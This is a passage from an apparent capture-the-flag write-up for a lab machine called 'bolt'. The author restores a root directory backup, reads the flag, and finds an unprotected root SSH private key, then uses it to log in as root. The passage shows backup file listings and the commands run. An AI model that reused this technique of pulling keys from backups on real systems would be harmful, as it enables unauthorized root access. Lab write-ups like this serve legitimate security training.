     ignoring error for /root/.local: Lchown: lchown /tmp/ioio2/rest/root/.local: operation not permitted
    ignoring error for /root/.profile: Lchown: lchown /tmp/ioio2/rest/root/.profile: operation not permitted
    ignoring error for /root/.selected_editor: Lchown: lchown /tmp/ioio2/rest/root/.selected_editor: operation not permitted
    ignoring error for /root/.ssh/authorized_keys: Lchown: lchown /tmp/ioio2/rest/root/.ssh/authorized_keys: operation not permitted
    ignoring error for /root/.ssh/id_rsa: Lchown: lchown /tmp/ioio2/rest/root/.ssh/id_rsa: operation not permitted
    ignoring error for /root/.ssh/id_rsa.pub: Lchown: lchown /tmp/ioio2/rest/root/.ssh/id_rsa.pub: operation not permitted
    ignoring error for /root/.ssh: Lchown: lchown /tmp/ioio2/rest/root/.ssh: operation not permitted
    ignoring error for /root/.wget-hsts: Lchown: lchown /tmp/ioio2/rest/root/.wget-hsts: operation not permitted
    ignoring error for /root/config.yml: Lchown: lchown /tmp/ioio2/rest/root/config.yml: operation not permitted
    ignoring error for /root/cron.sh: Lchown: lchown /tmp/ioio2/rest/root/cron.sh: operation not permitted
    ignoring error for /root/root.txt: Lchown: lchown /tmp/ioio2/rest/root/root.txt: operation not permitted
    ignoring error for /root: Lchown: lchown /tmp/ioio2/rest/root: operation not permitted
    There were 24 errors

In the root directory backup we found the flag as planned.

    :::text
    bolt@bolt:/tmp/ioio2$ ls rest
    root
    bolt@bolt:/tmp/ioio2$ ls rest/root/root.txt
    rest/root/root.txt
    bolt@bolt:/tmp/ioio2$ cat rest/root/root.txt
    ntrkzgnkotaxyju0ntrinda4yzbkztgw

But we also found a SSH private key without password that allow us to connect as
root on the box!

    :::text
    bolt@bolt:/tmp/ioio2$ ls rest/root/.
    ./                ../               .bash_history     .bashrc           .cache/           .config/          .gnupg/           .local/           .profile          .selected_editor  .ssh/             .wget-hsts
    bolt@bolt:/tmp/ioio2$ ls rest/root/.ssh/
    authorized_keys  id_rsa           id_rsa.pub
    bolt@bolt:/tmp/ioio2$ ls rest/root/.ssh/
    authorized_keys  id_rsa  id_rsa.pub

Once copied on our local machine.

    :::text
    ssh root@10.10.10.159 -i ./id_rsa_root
    Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

      System information as of Thu Dec  5 18:51:02 UTC 2019
